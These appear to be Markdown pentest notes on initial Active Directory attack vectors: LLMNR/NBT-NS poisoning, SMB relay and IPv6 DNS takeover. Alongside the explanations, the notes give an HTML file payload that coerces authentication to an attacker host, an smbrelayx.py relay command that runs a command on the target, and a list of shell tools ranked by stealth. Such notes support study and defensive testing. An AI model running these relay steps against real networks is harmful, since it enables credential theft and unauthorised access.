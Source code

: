 # Phase 0:  Initial attack vectors
---
## LLMNR Poisoning
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
### Exploitation
- Use responder to MITM and recieve the hash -> [**Responder.py**](https://github.com/SpiderLabs/Responder)
### Mitigation
- See MITRE **[[#Refrences]]** below.
---

## SMB  Relay attack
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
### Checking if SMB signing id disabled
```bash 
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
### Exploitation
- Either by waiting for somenone to mistyping a domain or by sending an html payload file
#### HTML payload file
```html
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
####  Tool
```bash
smbrelayx.py -h 10.0.0.6 -c "ipconfig" # 'c' is optional to execute commands.
```
### Gaining an shell
```bash
#Tools (Require password)
wmiexec #-> stealthier (Can be used to PASSTHEHASH and get a shell)
psexec #-> stealthier
smbexec #-> not stealthy
```

### IPv6 DNS Takeover
Useful and important
- [Delegation attack](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [Attack](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

## Refrence
- [**BLOG Explaning various techniques**](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [**LLMNR Poison MITRE**](https://attack.mitre.org/techniques/T1557/001/) **&**  [**LLMNR Poison Meduim**](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
- [**SMB Relay**](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)